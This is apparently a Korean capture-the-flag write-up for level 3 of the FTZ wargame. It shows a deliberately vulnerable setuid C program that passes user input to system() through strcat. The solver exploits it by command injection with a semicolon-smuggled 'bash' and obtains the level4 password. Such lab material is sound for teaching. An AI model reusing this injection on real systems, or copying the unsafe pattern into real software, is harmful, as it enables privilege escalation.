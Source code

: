 # Level3

`[level3@ftz level3]$ cat hint`

다음 코드는 **autodig**의 소스이다.
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

char cmd[100];

if( argc!=2 ){
    printf( "Auto Digger Version 0.9\n" );
    printf( "Usage : %s host\n", argv[0] );
    exit(0);
}

strcpy( cmd, "dig @" );
strcat( cmd, argv[1] );
strcat( cmd, " version.bind chaos txt");

system( cmd );
}
```

이를 이용하여 level4의 권한을 얻어라.

more hints.

1) 동시에 여러 명령어를 사용하려면?

2) 문자열 형태로 명령어를 전달하려면?

***

`[level3@ftz level3]$ find / -name autodig 2>/dev/null`

/bin/autodig

`[level3@ftz level3]$ find / -user level4 -perm -4000 2>/dev/null`

/bin/autodig

`[level3@ftz level3]$ ls -l /bin/autodig`

-rwsr-x---    1 level4   level3      12194 Aug 19  2014 /bin/autodig

`[level3@ftz level3]$ /bin/autodig "8.8.8.8 www.naver.com; bash;"`

`[level4@ftz level3]$ my-pass`

Level4 Password is "suck my brain".

